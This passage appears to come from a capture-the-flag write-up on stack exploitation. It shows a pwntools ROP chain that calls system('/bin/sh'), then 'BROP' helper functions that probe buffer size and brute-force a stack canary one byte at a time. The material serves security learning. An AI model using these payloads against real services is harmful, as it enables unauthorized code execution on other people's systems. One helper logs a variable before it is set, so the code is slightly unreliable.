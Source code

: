 ```python
conn.sendline(b"\0" * (256 + 8) + p64(gadget_pop_rdi_ret) + p64(addr_binsh) + p64(gadget_ret) + p64(addr_system))
```

Done. Details in [appendix](#exploit/02.py)

![](assets/image-20210410115319282.png)

## 03_brop

### Step1 - get binary

#### Get Buffer Size

Using certain char to form a slightly increasing length string to overfow the stack, found the one which exactly crash the stack.

```python
def get_buffer_size():
    for i in range(20):
        payload = b'A' * (i + 1)
        go_to_recv()
        p.send(payload)
        if p.recvline()[0:3] == b'[-]':
            log.info("bad buffer size: %d" % buf_size)
        else:  # Crash
            log.info("buffer size: %d" % buf_size)
            return i
```

#### Get Canary

Try byte by byte from 0 to 255 with the same strategy as [pervious part](#Get Buffer Size), see which value that will not crash the stack. If so, keep its value and continue to next byte. Remember the little endian is useed in this arch.

```python
def get_canary():
    canary_list = []
    for loop in range(0, 4):
        for i in range(0x100):
            payload = b'A' * buf_size
            for j in range(loop):
                payload += p8(canary_list[j])
            payload += p8(i)

            go_to_recv()
            p.send(payload)
            if p.recvline()[0:3] == b'[-]':
                canary_list.append(i)
                log.info("canary[%d] is 0x%x" % (loop, i))
                break
    return sum(canary_list[i] << (8 * i) for i in range(4))
```
